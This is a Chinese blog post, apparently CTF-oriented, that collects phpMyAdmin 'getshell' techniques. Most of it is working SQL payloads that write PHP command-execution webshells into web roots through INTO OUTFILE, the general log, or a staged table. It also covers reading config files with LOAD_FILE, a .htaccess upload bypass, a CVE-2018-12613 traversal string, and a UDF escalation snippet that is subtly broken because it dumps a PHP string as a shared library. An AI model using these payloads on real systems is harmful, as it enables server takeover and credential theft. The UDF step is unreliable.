 ```yaml
---
layout: post
title: phpMyadmin getShell方法
subtitle: phpMyadmin getShell
date: 2025-08-15 18:47
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
number headings: first-level 2, max 4, 1.1., auto
published: true
---
```

## 1. phpMyAdmin getshell 常见套路

Windows 和 Linux 原理基本相同

- [ ] phpmyadmin getshell 方法🛫 2025-08-15 

### 1.1. `INTO OUTFILE` 写 PHP 马

**原理**：MySQL 可以把查询结果直接写到服务器文件系统，如果 Web 目录可写，就能写一段 PHP 代码变成 WebShell。

**条件检查：**

```sql
SHOW VARIABLES LIKE 'secure_file_priv'; 
SHOW GRANTS FOR CURRENT_USER();
```

- `secure_file_priv` 为空或是 Web 根目录。
- 当前用户有 `FILE` 权限。

**利用：**

```sql
select @@basedir;  -- 查找绝对路径
-- linux
SELECT '<?php system($_REQUEST["cmd"]);?>' INTO OUTFILE '/var/www/html/shell.php';
-- win
SELECT '<?php eval($_REQUEST["cmd"]);?>' INTO OUTFILE 'c:\phpstudy\www\shell.php';
```

**CTF 变种：**

- 出题人可能会限制 `secure_file_priv`，这时需要找 **符号链接绕过** 或 **mysql 日志写马**

### 1.2. 利用 MySQL 日志写 WebShell

**原理**：MySQL 的 general log、slow log 可以记录 SQL 语句到文件。通过设置日志路径到 Web 目录，就能写 PHP 代码。

**操作：**

```sql
SET global general_log = 'ON'; 
SET global general_log_file = '/var/www/html/shell.php'; 
SELECT '<?php system($_GET["cmd"]); ?>'; 
SET global general_log = 'OFF';
```

访问 `shell.php` 即可。

### 1.3. `LOAD_FILE` 读取敏感文件

虽然不是直接 getshell，但可以辅助：

```sql
SELECT LOAD_FILE('/var/www/html/config.php');
```

可能拿到数据库连接密码，从而用其他方式 getshell。

### 1.4. 导入功能绕过上传限制

在 phpMyAdmin 的 “导入” 页面上传 `.php` 文件，出题人可能没有过滤，或者导入路径就是 Web 可访问路径。

- 常见的 CTF trick：导入 `.txt` 文件，但内容是 PHP 代码，然后用双扩展名 `shell.php.txt`，再通过 `.htaccess` 把 `.txt` 解析成 PHP。

### 1.5. 创建数据库和表写入 WebShell

```sql
CREATE TABLE test( id text(500) not null);
INSERT INTO test (id) VALUES('<?php @eval($_POST[cmd]);?>');
SELECT id FROM test INTO OUTFILE 'C:/phpstudy/WWW/1.php';
DROP TABLE IF EXISTS test;
```

### 1.6. phpMyAdmin 历史漏洞 getshell

在 CTF 中常用老版本 phpMyAdmin：

- **CVE-2018-12613**：文件包含漏洞，可以通过 `?target=db_sql.php%253f/../../../../.../shell` 来执行任意文件。
- **CVE-2016-5734**：SQL 执行漏洞，配合 OUTFILE 直接 getshell。

### 1.7. MySQL UDF 提权

如果 MySQL 用户有 `FILE` 权限且是 root 运行，可以写入 `.so` 动态库到插件目录，创建自定义函数执行系统命令：

```sql
SELECT '<?php code ?>' INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so'; CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so'; SELECT sys_eval('id');
```

但 CTF 中较少，因为需要 root 权限。
